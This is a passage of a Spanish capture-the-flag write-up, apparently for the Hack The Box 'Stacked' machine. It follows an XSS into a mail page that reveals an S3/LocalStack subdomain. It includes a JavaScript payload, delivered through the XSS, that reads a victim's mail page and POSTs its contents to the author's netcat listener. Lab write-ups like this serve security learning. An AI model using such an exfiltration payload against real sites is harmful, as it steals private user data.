 ![Diagrama en blanco](https://user-images.githubusercontent.com/69093629/162549694-f2646995-76e5-4b23-96ff-710ee65c508d.png)

Esta era la página con el código HTML del usuario.

![webservidor2](https://user-images.githubusercontent.com/69093629/162546326-2b628a81-cecf-40d4-a34e-d1587a2ec2cb.png)

Había un usuario llamado `Jeremy Taint` con un hiperenlace que te redirigía a `/read-mail.php?id=1`:

![0](https://user-images.githubusercontent.com/69093629/162546383-87e5e3a6-7cdc-43fb-a192-65bfca15d8f6.png)

Esto me llamo la atención, por lo que decidí descargar el HTML correspondiente con el siguiente código JS:

```js
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://mail.stacked.htb/read-mail.php?id=1", false);
oReq.send();

var response = oReq.responseText;

var resp = new XMLHttpRequest();
resp.open("POST", "http://10.10.16.59:5555/", false);
resp.send(response);
```

Este envia una petición GET a `http://mail.stacked.htb/read-mail.php?id=1` desde la instancia del usuario, almacenaba la respuesta en `response` y hace otra petición POST a mi sesión de `nc` con el contenido de la variable `response`.

Apunte a mi archivo JS desde el XSS y recibí una conexión por `nc`, abrí un servidor por Python y mire que tenía esta segunda página.

![subdominio](https://user-images.githubusercontent.com/69093629/162546991-eb57a5f8-984b-4d79-a836-f12d605fe546.png)

Había un mensaje: *Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks*.

Este decía que configure la instancia de S3 en `s3-testing.stacked.htb`, este era un nuevo subdominio que no tenía, por lo que lo añadí al `/etc/hosts`.

![0](https://user-images.githubusercontent.com/69093629/162547200-0e4ff1cc-fa24-4b70-9d47-42613ce5ab25.png)

### s3-testing.stacked.htb

![s3](https://user-images.githubusercontent.com/69093629/162547229-c2a8df2c-cf15-43b4-b484-8097a51b4b72.png)

Al parecer era una API de AWS, viendo esto me acordé del archivo `docker-compose.yml` el cual contenía información sobre un servicio AWS en local.

Buscando vulnerabilidades de LocalStack encontre lo siguiente:

![Captura de pantalla 27](https://user-images.githubusercontent.com/69093629/162548008-b6c6c6da-fc2f-49d8-8e00-fd07ded05450.png)
